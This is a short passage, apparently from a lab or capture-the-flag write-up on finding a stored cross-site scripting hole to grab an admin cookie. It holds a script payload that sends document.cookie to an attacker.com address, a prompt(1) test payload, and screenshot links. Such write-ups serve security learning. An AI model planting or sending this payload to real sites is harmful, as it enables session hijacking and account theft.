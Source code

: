 ```javascript
<script>
  fetch('http://attacker.com/steal?cookie=' +
  encodeURIComponent(document.cookie));
</script>
```

Capstone,

Let's find the admin cookie value,

Test if the webpage is vulnerable to the stored xss.

`<script>prompt(1)</script>`

![capstoneXSS1](../assets/img/xss/Screenshot%202024-08-04%20at%2015.41.46.png)

![capstoneXSS2](../assets/img/xss/Screenshot%202024-08-04%20at%2015.42.07.png)